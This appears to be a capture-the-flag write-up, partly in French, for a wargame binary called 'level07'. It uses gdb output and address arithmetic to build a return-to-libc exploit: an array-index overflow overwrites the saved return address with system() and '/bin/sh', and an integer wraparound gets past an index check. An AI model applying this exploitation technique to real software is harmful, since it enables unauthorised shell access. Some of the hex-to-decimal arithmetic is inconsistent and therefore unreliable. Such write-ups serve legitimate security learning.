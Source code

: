 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis




index overflow
pas d'utilisation possible de l'env car clear au début du code !!


### Find occurence of /bin/sh

(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 

system address : 0xf7e6aed0
bin/sh address : 0xf7f897ec

### Find EIP of main function
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 

=> eip address 0xffffd70c de la fonction main
0x8048741
### Find address of tab[100]

address is 0xffffcd24

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000

```

### Calculate tab index to overwrite

interval between eip and tab 0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
On divise par 4 car index d'int donc 4 bytes

### Set sellcode to eip+8

0xf7f897ec => 4160264172

insruction : store
number : 4160264172
index : 116 (eip + 2 * 4)

### Set system address to eip

0xf7e6aed0 => 4159090384

insruction : store
number : 4159090384
index : 114

problème : 114 est divisible par 3
(UINTMAX + 1) + 456 = 456
(4294967295 + 1 + 456) / 4 = 1073741938

and then quit and we get a shell 

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue